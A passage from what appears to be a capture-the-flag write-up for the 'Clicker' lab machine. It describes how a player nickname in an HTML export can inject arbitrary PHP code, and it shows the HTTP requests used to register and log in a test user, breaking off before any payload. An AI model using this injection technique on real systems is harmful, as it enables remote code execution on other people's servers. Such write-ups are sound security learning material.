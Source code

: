 ```php
    $s .= '    <td>' . $player["level"] . '</td>';
    $s .= '  </tr>';
  }
  $s .= '</tbody>';
  $s .= '</table>';
}
```

However, we noticed that when the chosen export format is not `.txt` or `.json`, the script exports the data in `HTML` format. This is significant because the player's `nickname`, which is part of the data, allows us to inject arbitrary `PHP` code.

To exploit this, we followed a series of steps:

- First, we created a user with lower privileges by sending a `POST` request with the username `abcd` and password `abcd`.

```
POST /create_player.php HTTP/1.1
Host: clicker.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 27
Origin: http://clicker.htb
Connection: close
Referer: http://clicker.htb/register.php
Upgrade-Insecure-Requests: 1

username=abcd&password=abcd
```

- We then authenticated this user.

```
POST /authenticate.php HTTP/1.1
Host: clicker.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 27
Origin: http://clicker.htb
Connection: close
Referer: http://clicker.htb/login.php
Cookie: PHPSESSID=4rd8gdqkgrh2c651jngu7u082a
Upgrade-Insecure-Requests: 1

username=abcd&password=abcd
```
